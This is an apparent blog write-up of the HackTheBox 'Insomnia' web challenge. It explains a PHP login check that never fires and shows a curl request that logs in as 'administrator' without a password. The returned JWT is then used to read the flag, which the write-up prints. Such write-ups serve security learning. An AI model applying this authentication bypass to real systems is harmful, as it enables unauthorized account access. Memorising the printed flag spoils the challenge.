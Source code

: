 ```yaml
---
title: "[HTB] Insomnia Writeup \U0001F4A4"
cover: >-
    https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/help-you-at-solving-hackthebox-htb-challenges-machines.png
categories:
    - [HackTheBox]
    - [CTF]
tags:
    - HTB
    - Web
    - HackTheBox
abbrlink: cab519b8
date: 2024-07-16 17:49:39
---
```


# 0x00 Challeng Info

It's a web challenge, so it gives us a website and the source code for us to analyze. Let's see the description first.

> Welcome back to Insomnia Factory, where you might have to work under the enchanting glow of the moon, crafting dreams and weaving sleepless tales.

Well, although it's not helpful, it's still a romantic setting for this challenge (you know, programmers & hackers always work at night).

# 0x01 Analyze

Since it gave us the source code, we should check it out first. The most important thing is under the **controller directory** (`Insomnia/web_insomnia/Insomnia/app/Controllers`), because it's where the backend interact with users.

I check out the `ProfileController.php`, and find something interesting.

```php
if ($username == "administrator") {
    return view("ProfilePage", [
        "username" => $username,
        "content" => $flag,
    ]);
} else {
    $content = "Haven't seen you for a while";
    return view("ProfilePage", [
        "username" => $username,
        "content" => $content,
    ]);
}
```

So if we can login as **administrator**, then we can get the flag. Now the question is how we are able to do that. To know how, we should then find the answer in the login function, which is in `UserController.php`.

After analyzing the code, we can found that there's an logic error in the code that the developer doesn't notice it. In the `login()` function, the developer use `if (!count($json_data) == 2)` to check if the login data we passed has 2 arguments. But if we think it carefully, we can know that it's different to `if (count($json_data) !== 2)`. Here's are the differences.

1. `if (!count($json_data) == 2)`
    - First, it calculate `count($json_data)`, and it's an INT.
    - Then, the "!" negates the result we get. So if `count($json_data)` does not equals to 0, the expression will get a **false**. Anyways, it will get a **BOOL** as it's data type.
    - Finally, it checks whether the **BOOL** is equivalent to an **INT**, so the expression will always be a **false**, in other words, **the program will never go into this if statement**.
2. `if (count($json_data) !== 2)`
    - It calculate the `count($json_data)` and properly compare the number with 2.
    - So this is the correct way to check if the data count is legal.

The next thing you should know is everytime we sign in, the system will give us a token to verify our identitys. The following is the complete code of `ProfileController.php`

```php
<?php

namespace App\Controllers;

use App\Controllers\BaseController;
use CodeIgniter\HTTP\ResponseInterface;
use Config\Paths;
use Firebase\JWT\JWT;
use Firebase\JWT\Key;

class ProfileController extends BaseController
{
    public function index()
    {
        $token = (string) $_COOKIE["token"] ?? null;
        $flag = file_get_contents(APPPATH . "/../flag.txt");
        if (isset($token)) {
            $key = (string) getenv("JWT_SECRET");
            $jwt_decode = JWT::decode($token, new Key($key, "HS256"));
            $username = $jwt_decode->username;
            if ($username == "administrator") {
                return view("ProfilePage", [
                    "username" => $username,
                    "content" => $flag,
                ]);
            } else {
                $content = "Haven't seen you for a while";
                return view("ProfilePage", [
                    "username" => $username,
                    "content" => $content,
                ]);
            }
        }
    }
}
```

So the final step is to sign in as administrator and copy the token we get. Let's hack the planet!

# 0x02 Exploit

To sign in, I tried to use the browser to send the request first. But it won't work since the key "password" is still assigned a value of null string just like below. That way, we can't sign in due to the wrong password.

![Password is assigned](https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/image-20240716214725811.png)

To bypass this, I use **curl** to help me to send the request. The payload is the URL and the data, which is the username.

```bash
curl http://94.237.51.8:32663/index.php/login --data-raw '{"username": "administrator"}'
```

And the terminal will shows the response, then we can copy the token just like this.

```bash
{"message":"Login Succesful","token":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE3MjExMjMwODEsImV4cCI6MTcyMTE1OTA4MSwidXNlcm5hbWUiOiJhZG1pbmlzdHJhdG9yIn0.fMLAS55mm69_aqQWEhehVlspjCvpfHJzOp4vy91Zjv8"}
```

The final step is going to `/index.php/profile` and paste the token we just got (by using the devtool to modify the token cookie). After refreshing the page, we can get the flag!

![Pwned](https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/image-20240716215517124.png)

# 0x03 Pwned

```
HTB{I_just_want_to_sleep_a_little_bit!!!!!}
```
